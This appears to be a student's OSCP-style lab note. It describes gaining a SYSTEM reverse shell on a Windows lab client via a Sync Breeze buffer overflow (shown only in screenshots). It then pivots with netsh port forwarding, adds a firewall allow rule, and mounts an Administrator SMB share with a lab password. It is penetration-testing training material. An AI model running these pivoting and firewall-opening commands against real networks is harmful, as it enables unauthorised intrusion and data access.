 20.4.1.1

# 20.4.1.1

## 20.4.1.1.1. Obtain a reverse shell on your Windows lab client through the Sync Breeze vulnerability.

Start a netcat listener on Kali
![95b5a3fd864e127f120fd5d6976c1f0e.png](:/e8c8818d8e024a5eb40da987bc25c3d7)

Run the buffer overflow exploit from 15.1.7.1.
![c4e62920c38820af6e87f0bd407f444f.png](:/ab68adbfb16148e9b82e26f835e3f285)

Notice we have a SYSTEM shell
![4ad2016e8b8c8acdb144745db1279a45.png](:/e6cefe482bfa4a9084f3bb2201a0b893)


## 20.4.1.1.2. Use the SYSTEM shell, attempt to replicate the port forwarding example using netsh.

Ensure that IP Helper service is running, and IPv6 support is enabled (check the adapter settings). 

Attempt to redirect traffic destined for the compromised Windows 10 machine 
`netsh interface portproxy add v4tov4 listenport=4455 listenaddress=192.168.214.10 connectport=445 connectaddress=172.16.214.5`
![139550e92548e4b375719dd902f15736.png](:/1b05265eba444872b1e9ced5db3b782b)

Confirm that port 4455 is listening
`netstat -anp TCP | find "4455"`
![617e7f84947ed3f90fe63ed3efa99ab9.png](:/8da19c1ead2545e8abeb8a43d251d2b6)


By default, Windows Firewall disallows inbound connection on TCP port 4455, which would prevent us from interacting with our tunnel. Since we have SYSTEM privileges, we can fix this by adding a firewall rule to allow inbound connections on that port.
`netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=192.168.214.10 localport=4455 action=allow`
![6ad6b098a248d509f05a79243fb52350.png](:/51de1556eea54831897283da6461b681)

Ensure the min protocol variable is set to SMB2
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/syncbreeze$ cat /etc/samba/smb.conf 
#                                                                                              
# Sample configuration file for the Samba suite for Debian GNU/Linux.    ...
# Please note that you also need to set appropriate Unix permissions
# to the drivers directory for these users to have write rights in it
;   write list = root, @lpadmin
min protocol = SMB2
```

Restart samba
`sudo /etc/init.d/smbd restart`
![b4266787efbd60f2c668f094c6c35785.png](:/386fa7d076684498904f9e56f1b51add)

List the Windows 2016 Server shares via smbclient
`smbclient -L 192.168.214.10 --port=4455 --user=Administrator`
![d641f22af28e4d911399a401b05645cd.png](:/4b894910a1524d53a0c1f43a8175ab4e)

Create a mountpoint for the Windows 2016 Server share
`sudo mkdir /mnt/win10_share`
Mount the shares from Windows 2016 Server
`sudo mount -t cifs -o port=4455 //192.168.214.10/Data -o username=Administrator,password=lab /mnt/win10_share/`
List the contents on the share
`ls -l /mnt/win10_share/`
Read the data.txt file
`cat /mnt/win10_share/data.txt `
![d366ecb6e55a92ca2dd13d57dc1f449f.png](:/baf3653ebd854bb69d26cbd9590506ed)
![a926920f94e722276c97133125b56eaa.png](:/e597096f912e4b7f93d46ff1bb2dc464)



id: 31e4bd495c084ab8862af1479b98fb8b
parent_id: a8b7e0c4186e414d97dc4f2740bb2265
created_time: 2020-10-04T13:34:10.944Z
updated_time: 2020-10-05T07:00:42.230Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-04T13:34:10.944Z
user_updated_time: 2020-10-05T07:00:42.230Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1
